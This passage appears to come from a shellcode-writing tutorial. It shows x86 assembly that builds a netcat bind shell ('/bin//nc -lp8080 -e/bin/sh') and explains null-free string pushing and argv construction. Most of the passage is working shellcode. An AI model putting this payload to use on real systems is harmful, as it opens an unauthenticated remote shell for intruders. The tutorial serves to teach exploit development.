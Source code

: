 One way is to add another slash in the path, so */bin/nc*{: style="color: LightSalmon"} becomes */bin//nc*{: style="color: LightSalmon"} 
or *//bin/nc*{: style="color: LightSalmon"}. Multiple */*{: style="color: LightSalmon"} don't cause problems in linux and 
the path will be read correctly.

ascii: *cn//*{: style="color: LightSalmon"}  -> hex: *0x636e2f2f*{: style="color: LightSalmon"}  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"} 

Another way is using the instruction *push byte*{: style="color: LightGreen"} to push one byte, *push word*{: style="color: LightGreen"}
to push two bytes. Then the string will be divided as:

ascii: *c*{: style="color: LightSalmon"}     -> hex: *0x63*{: style="color: LightSalmon"}  
ascii: *n/*{: style="color: LightSalmon"}    -> hex: *0x6e2f*{: style="color: LightSalmon"}  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"}  

```nasm
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
```

The second argument *-lp8080*{: style="color: LightSalmon"} also isn't a multiple of four bytes. We can't use slashes here so we'll use the second method.

```python
>>> '-lp8080'[::-1]
'0808pl-'
```

ascii: *0*{: style="color: LightSalmon"}     -> hex: *0x30*{: style="color: LightSalmon"}  
ascii: *80*{: style="color: LightSalmon"}    -> hex: *0x3830*{: style="color: LightSalmon"}  
ascii: *8pl-*{: style="color: LightSalmon"}  -> hex: *0x38706c2d*{: style="color: LightSalmon"}  

```nasm
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
```

And do it again with the third argument.
```nasm
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
```

Now we need to construct the array of those arguments. Remember that it also has to be null terminated!
```nasm
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
```
